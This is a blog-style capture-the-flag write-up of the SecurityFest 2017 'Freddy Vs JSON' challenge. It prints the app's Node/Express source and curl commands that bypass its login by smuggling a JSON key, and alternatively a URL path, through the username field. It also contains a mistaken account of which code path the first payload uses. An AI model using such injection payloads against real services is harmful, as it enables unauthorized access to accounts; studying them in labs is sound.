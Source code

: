 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
title: SecurityFest2017 - Freddy Vs JSON
tags: schemainjection
mathjax: false
imagefeature: /images/express.jpg
description: SecurityFest2017 - Freddy Vs JSON Writeup
category: Web Exploitation
chart: null
---
```



## Problem

```
Can you hack my friends facebook? no? what about this then?
Solves: 19
Service: http://52.208.132.198:2999/
Author: avlidienbrunn
```


## Writeup

First impression i thought that was SQL Injection challenges to get into login bypass but after a while
i just figure it they using Express that was node web framework.

```
➔ curl http://52.208.132.198:2999/ -v
*   Trying 52.208.132.198...
* Connected to 52.208.132.198 (52.208.132.198) port 2999 (#0)
> GET / HTTP/1.1
> Host: 52.208.132.198:2999
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 1813
< ETag: W/"715-DSGKN9kwhacZR6TO5Ab8xoUqS9Y"
< Date: Fri, 02 Jun 2017 02:25:59 GMT
< Connection: keep-alive
< 
```

so let's try to find some file configuration that's usually used by node and i just found
`package.json` is readable for us.

```js
{
    name: "freddyvsjson",
    version: "1.0.0",
    description: "hi",
    main: "index.js",
    dependencies: {
    body-parser: "^1.17.1",
    express: "^4.15.2",
    express-jwt: "^5.3.0",
    request: "^2.81.0"
},
devDependencies: { },
scripts: {
    test: "echo "Error: no test specified" && exit 1"
},
author: "",
license: "ISC"
}
```

this file actually leaking some information for further testing. we now have idea what module used.
and again we can read `index.js` content.

```js
require('./local');
var crypto = require('crypto');
var express = require('express');
var request = require("request");
var app = express();

var bodyParser = require('body-parser');
app.use(bodyParser.urlencoded({
	extended: true
})); 

app.use(express.static('.'));

app.listen(2999, function () {
  console.log('Example app listening on port 2999!')
});

index = `<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" user-scalable="no" content="width=device-width, initial-scale=1">
      <script src="https://code.jquery.com/jquery-1.12.4.min.js"></script>
      <script src="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/js/bootstrap.min.js"></script>
      <script src="/static/index.js"></script>
      <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css" />
      <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.3.0/css/mdb.min.css" />
      <link rel="stylesheet" href="/static/freddy.css" />
  </head>
  <body><section class="login-info">
<div class="container">
  <div class="row main">
       <div class="form-header elegant-color">
          <h1 class="text-center ">Authenticate</h1>
        </div>
    <div class="main-content">
            
          <div class="input-group ">
            <span class="input-group-addon"><span class="glyphicon glyphicon-envelope" aria-hidden="true"></span></span>
            <input id="user" type="text" class="form-control text-center" name="email" placeholder="Enter your Email">
          </div>
          <div class="input-group">
            <span class="input-group-addon"><span class="glyphicon glyphicon-lock" aria-hidden="true"></span></span>
            <input id="pass" type="password" class="form-control text-center" name="password" placeholder="Enter your Password">
          </div>
          
          <div class="form-group ">
              <a href="#" id="login" type="button"  class="btn btn-danger btn-lg btn-block login-button">login</a>
          </div>
          
          <div class="form-group" id="container">
          </div>
      
      </div>
    </div></body></html>`;

app.get('/', function (req, res) {
	res.send(index);
});

function atob(str){
	return Buffer(str, 'base64').toString()
}

function btoa(str){
	return Buffer(str).toString('base64')
}

app.post("/", function(req, res){
	if(req.body.user && req.body.pass){
		user = req.body.user;
		pass = crypto.createHash('md5').update(req.body.pass).digest("hex");
		//Query internal login service
		request("http://127.0.0.1:3001/createTicket/"+user+"/"+pass, function(error, response, body){
			console.log(body);
      try{
			   body = JSON.parse(body);
      }catch(x){
         body = {"authenticated":false, "user":req.body.user, "id":0}
      }
			if(body.authenticated){
				body.response = "Congratulations: " + process.env.FLAG;
			}else{
        body.response = "Invalid username or password!";
      }
			res.send(JSON.stringify(body));
		});
	}else{
		res.send("hi");
	}
})
```

and we found another file `local.js` which is included in first line of `index.js`

```js
var express = require('express');
var crypto = require('crypto');
var localapp = express();

localapp.listen(3001, '127.0.0.1', function () {
  console.log('JWT service up!')
});

db = [
	{"user":"admin","pass":"9c72256fdb7196d2563a38b84f431491","id":"1"}
];

function atob(str){
	return Buffer(str, 'base64').toString()
}

function btoa(str){
	return Buffer(str).toString('base64')
}

function verify(user, pass){
	db_user = db[0]; //TODO: sync with LDAP instead
	if(user && user == db_user["user"]){
		if(pass && pass == db_user["pass"]){
			return db_user["id"];
		}
	}
	return 0;
}

localapp.get('/createTicket/:user/:pass', function (req, res) {
	user = req.params.user;
	pass = req.params.pass;
	userid = verify(user, pass);
	if(userid){
		res.send('{"authenticated":true, "user":"'+user+'", "id":'+userid+'}');
	}else{
		res.send('{"authenticated":false, "user":"'+user+'", "id":'+userid+'}');
	}
})
```

after trying to understand how this app works, i am trying to bruteforce this password hash `9c72256fdb7196d2563a38b84f431491` 
and my guess about SQL injection is gone because they using hardcoded db rather than using connection to some databases.

so the hash isn't crackable not get anyhing, and again i just read the `index.js` file to find some other ways to get authenticated
then i found this part in `index.js` can be exploited

```js
  try{
		   body = JSON.parse(body);
  }catch(x){
     body = {"authenticated":false, "user":req.body.user, "id":0}
  }
```

if we fail to authenticate with correct password the code will trigger catch, as we can see we can control
`req.body.user` variable so we can overwrite the `"authenticated":false`.

we can get flag with this curl
`curl -X POST http://52.208.132.198:2999/ --data 'user=admin", "authenticated":"true&pass=foobar'`

we have another way for bypass the login exploiting this line in `index.js`

```js
request("http://127.0.0.1:3001/createTicket/"+user+"/"+pass, function(error, response, body){
```

we can simply input user like `admin/<hash>?` and password `anything`, question mark at the end to ignore whatever after that

```
curl -X POST http://52.208.132.198:2999/ --data 'user=admin/9c72256fdb7196d2563a38b84f431491?&pass=foobar'
```

so we got the flag `{"authenticated":true,"user":"admin","id":1,"response":"Congratulations: SCTF{1nj3ction_5chm1nj3ctioN}"}`